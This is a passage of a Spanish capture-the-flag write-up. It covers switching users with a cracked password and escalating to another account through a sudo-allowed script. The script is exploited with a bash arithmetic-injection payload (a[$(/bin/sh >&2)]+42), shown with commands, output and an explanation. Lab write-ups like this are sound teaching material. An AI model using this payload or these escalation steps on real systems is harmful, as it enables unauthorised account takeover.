 - `--format=crypt`: Detectar el algoritmo usado de forma automática para Unix
- `--wordlist`: Especificamos el diccionario a usar para crackear el hash


## Shell as `darksblack`

Hemos encontrado la contraseña `salvador1` para el usuario `darksblack`, por lo que ya podemos migrar a este usuario

~~~ bash
www-data@5c050710a415:/home/maci$ su darksblack
Password:
www-darksblack@5c050710a415:/home/maci$
~~~


## Sudoers Privileges - `script.sh`

Inicialmente comprobaremos los privilegios `sudo` para este nuevo usuario

~~~ bash
darksblack@5c050710a415:/home/maci$ sudo -l
sudo -l
Matching Defaults entries for darksblack on 5c050710a415:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User darksblack may run the following commands on 5c050710a415:
    (maci) NOPASSWD: /home/maci/script.sh
~~~


## Shell as `maci` - Bash `eq`

Podemos ejecutar el `script.sh` que descubrimos anteriormente, por lo que ahora intentamos elevar nuestro privilegio usando `sudo`

~~~ bash
darksblack@5c050710a415:/home/maci$ sudo -u maci ./script.sh

Adivina: a[$(/bin/sh >&2)]+42
$ whoami
maci
$ id
uid=1000(maci) gid=1000(maci) groups=1000(maci)
~~~

Recordemos que el payload que usamos es el siguiente

~~~ bash
a[$(/bin/sh >&2)]+42
~~~

- `a[]`: Estamos haciendo una llamada a un array `a`
- `$()`: Usamos esta sintaxis para referirnos a un comando a nivel de sistema
- `/bin/sh >&2`: Lanza una `bash` y redirige la salida estándar al `stderr`, esto no afecta al funcionamiento de la consola
